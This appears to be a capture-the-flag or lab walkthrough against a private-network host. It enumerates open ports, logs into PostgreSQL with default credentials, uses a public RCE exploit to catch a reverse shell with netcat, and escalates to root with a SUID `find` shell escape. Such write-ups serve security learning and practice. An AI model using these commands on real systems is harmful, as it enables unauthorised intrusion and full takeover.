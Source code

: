 IP: 192.168.236.47



# Scanned all TCP ports:

**Open TCP ports discovered:**
- 21/tcp  vsftpd 3.0.3 (FTP)
- 22/tcp  OpenSSH 7.9p1 (SSH)
- 80/tcp  Apache httpd 2.4.38 (HTTP)
- 5437/tcp PostgreSQL DB 11.3–11.7
- others closed or filtered

---

# Enumeration

## PostgreSQL (port 5437)
- Default Postgres credentials found online.
- Connect with `psql`:
  ```bash
  psql -h 192.168.236.47 -p 5437 -U postgres -W
  # password: postgres
  ```
- Confirmed PostgreSQL version **11.7**.

---

# Exploitation

## PostgreSQL Remote Code Execution
- Retrieved a public RCE exploit script for PostgreSQL 11.7.
- Modified the script with attacker IP and port.
- Ran the script and started a Netcat listener on port 80:
  ```bash
  nc -lvnp 80
  ```
- Executed exploit → **reverse shell** as `postgres` user.

---

# Privilege Escalation

## Local Enumeration
- Enumerated SUID binaries:
  ```bash
  find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
  ```
- Noted `/usr/bin/find` is SUID root.

## SUID `find` Exploit
- Consulted GTFOBins for `find`:
  ```bash
  find . -exec /bin/sh -p \; -quit
  ```
- Ran the above command in a writable directory → **root shell** obtained.

